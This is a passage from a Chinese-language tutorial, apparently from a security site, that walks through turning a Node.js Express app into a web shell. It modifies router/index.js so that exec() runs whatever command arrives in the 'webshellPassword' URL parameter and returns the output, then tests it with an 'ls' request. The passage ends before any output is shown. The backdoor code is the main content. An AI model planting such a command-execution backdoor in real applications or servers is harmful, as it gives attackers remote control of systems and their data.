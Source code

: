 ![p10](http://drops.javaweb.org/uploads/images/193eaa247a71fa332935556f9ad64d81900c410d.jpg)

```
cd node && npm install

```

完成后，基本就OK了。现在我们进入到routes目录。修改index.js文件。

```
vim router/index.js

```

![p11](http://drops.javaweb.org/uploads/images/2e6017e7364d37511418d5b3f04fa9c7ffc6eede.jpg)

这是之前的index.js代码，现在我们来修改它。

在第三行加入代码：

```
var exec = require('child_process').exec;

```

删除第6行代码，修改为：

```
exec(req.query.webshellPassword,function(error,stdout){
    if(error !== null){
        res.send(error);
        return false;
    }
    res.send(stdout);
});

```

基本和上一节的telnet通信后门代码差不多。只是出现了如下代码：

```
req.query.webshellPassword

```

`req.query`是NodeJs获取URL参数的。webshellPassword是参数名。他相当于PHP代码里的：`$_GET['webshallPassword'];`

完整代码如下：

![p12](http://drops.javaweb.org/uploads/images/e068c5ce92b56d8eceecdd87f14850a7d4c91004.jpg)

现在我们进入到node目录。运行它：

![p13](http://drops.javaweb.org/uploads/images/4f4d42e6a70d79a736a3a7ee500bebbbacf6bbda.jpg)

打开浏览器，输入`http://127.0.0.1:3000/?webshellPassword=ls`

结果如下：
